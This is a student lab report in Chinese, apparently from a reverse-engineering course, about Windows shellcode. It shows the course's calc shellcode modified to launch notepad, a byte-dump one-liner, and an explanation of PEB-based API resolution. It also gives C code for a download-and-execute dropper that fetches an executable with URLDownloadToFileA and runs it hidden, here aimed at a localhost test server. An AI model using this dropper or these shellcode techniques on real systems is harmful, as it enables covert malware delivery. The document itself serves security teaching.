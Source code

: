 # Shellcode

## 实验要求

1. 把上面这个链接中shellcode能够成功运行，
2. 能从汇编源码编译通过并成功dump，
3. 自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理，
4. 修改shellcode功能为运行记事本程序notepad. exe，
5. (选做)修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行（提示，使用原生API UrlDownloadToFileA）. 
   
## 实验流程

1. C语言是可以调用汇编程序的，所以直接在VS里运行代码.

![](img/calc.PNG)

2. 修改代码功能为运行记事本程序notepad.exe并dump

![](img/notepad.jpg)

```asm
; push 0x6578652e; exe. : 6578652e
; push 0x636c6163; clac: 636c6163
push 0x00657865;  exe : 00657865
push 0x2e646170; .dap : 2e646170
push 0x65746f6e; eton : 65746f6e
```

使用

```bash
nasm -f win32 win32-WinExec_Calc-Exit.asm -o win32-WinExec_Calc-Exit.o
for i in $(objdump -D win32-WinExec_Calc-Exit.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```

可以编译成十六进制字节形式。

![](img/asmdump.jpg)

3. 修改shellcode功能为下载执行器，即下载一个可执行文件，然后再运行
```c
// 代码功能：修改shellcode功能为下载执行器，即下载一个可执行文件，然后再运行
#include <urlmon.h>
#include <Windows.h>

typedef HRESULT (WINAPI * MY_PROC)(LPUNKNOWN, LPCSTR, LPCSTR, DWORD, LPBINDSTATUSCALLBACK);

int main() {
	// 调用函数不会导入表显示有URLDownloadToFile函数。
	// urlmon.dll默认不加载，所以需要手动先行加载
    // 要获得函数地址，dll必须在内存中，kernel32是默认加载的，提供LoadLibrary函数
	HMODULE hurlmod = LoadLibrary("urlmon.dll");
	MY_PROC function_ptr = (MY_PROC)GetProcAddress(hurlmod, "URLDownloadToFileA");
    // 遍历导出表也可以实现GetProcAddress相同的效果
	// URLDownloadToFile <=> function_ptr
	function_ptr(
		NULL,
		"http://localhost:8000/Project1.exe",
		"a.exe",
		0,
		NULL
	);
	WinExec("a.exe", SW_HIDE);
}
```

在本地开启一个http server

![](img/httpserver.jpg)

Project1.exe功能为打开记事本, 运行时自动打开了记事本, 并且可以发现cpp文件旁边多了一个a.exe文件.

![](img/dll.JPG)

![](img/aexe.jpg)


## 关于Shellcode

shellcode没有CreateProcess，所以只能自己去找。

### 通用shellcode

> 所有 win_32 程序都会加载 ntdll.dll 和 kernel32.dll 这两个最基础的动态链接库。攻击代码没有经过链接的过程，不知道API的地址。如果想要
> 在 win_32 平台下定位 kernel32.dll 中的 API 地址，可以采用如下方法。
>
> 1. 首先通过段选择字 FS 在内存中找到当前的线程环境块 TEB。
> 2. 线程环境块偏移位置为 0x30 的地方存放着指向进程环境块 PEB 的指针。
> 3. 进程环境块中偏移位置为 0x0C 的地方存放着指向 PEB_LDR_DATA 结构体的指针，
>    其中，存放着已经被进程装载的动态链接库的信息。
> 4. PEB_LDR_DATA 结构体偏移位置为 0x1C 的地方存放着指向模块初始化链表的头指
>    针 InInitializationOrderModuleList。
> 5. 模块初始化链表 InInitializationOrderModuleList 中按顺序存放着 PE 装入运行时初始化
>    模块的信息，第一个链表结点是 ntdll.dll，第二个链表结点就是 kernel32.dll。
> 6. 找到属于 kernel32.dll 的结点后，在其基础上再偏移 0x08 就是 kernel32.dll 在内存中的
>    加载基地址。
> 7. 从 kernel32.dll 的加载基址算起，偏移 0x3C 的地方就是其 PE 头。
> 8. PE 头偏移 0x78 的地方存放着指向函数导出表的指针。
> 9. 导出表0x1C处的指针指向存储导出函数偏移地址（RVA）的列表->导出表偏移0x20处的指针指向存储导出函数函数名的列表->函数的RVA地址和名字按照顺序存放在上述两个列表中，我们可以在名称列表中定位到所需的函数是第几个，然后在地址列表中找到对应的RVA—>获得RVA后，再加上前面已经得到的动态链接库的加载基址，就获得了所需API此刻在内存中的虚拟地址。
>
> ### fs是什么?TEB是什么?
>
> - fs是一个寄存器,只不过不可见
> - 在NT内核系统中fs寄存器指向TEB结构
> - TEB+0x30处指向PEB结构

### PE的结构

[PE Format](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format)

可执行文件，起始为MZ头，二进制 3CH处记录了文件起始位置的偏移量，PE标志为`50 45 00 00`，创建时间为timestamp格式。


### DLL

WinExec事实上执行[CreateProcess](https://docs.microsoft.com/en-us/windows/win32/procthread/creating-processes)

```cpp
main(int argc, TCHAR* argv[]);
argument_counter argument_vector
表示命令行以空格分隔参数，如果参数内需要空格可以加引号。
```

```c
if (!CreateProcess(NULL,   // No module name (use command line)
        argv[1],        // Command line
        NULL,           // Process handle not inheritable
        NULL,           // Thread handle not inheritable
        FALSE,          // Set handle inheritance to FALSE
        0,              // No creation flags
        NULL,           // Use parent's environment block
        NULL,           // Use parent's starting directory 
        &si,            // Pointer to STARTUPINFO structure
        &pi)           // Pointer to PROCESS_INFORMATION structure
        )
```

CreateProcess完成了动态链接，并跳到entrypoint运行下一步。即完成了父进程向子进程的调用。

## 实验问题与解决

- notepad.exe压栈问题

    最开始组合成了 `exe.` `dape` `ton空` ,但这样栈指针需要移位, 问过老师后改成了`空exe` `.dap` `teon`, 成功运行

- 关于解决编码问题
下载执行器的代码一直报错, 发现是字符集的问题.

    项目-属性-高级-字符集 将Unicode改成未设置

其他见[笔记](https://github.com/LyuLumos/Reverse-Engineering-and-Software-Security/blob/master/%E9%80%86%E5%90%91%E5%B7%A5%E7%A8%8B%E4%B8%8E%E8%BD%AF%E4%BB%B6%E5%AE%89%E5%85%A8%E7%AC%94%E8%AE%B0.md)
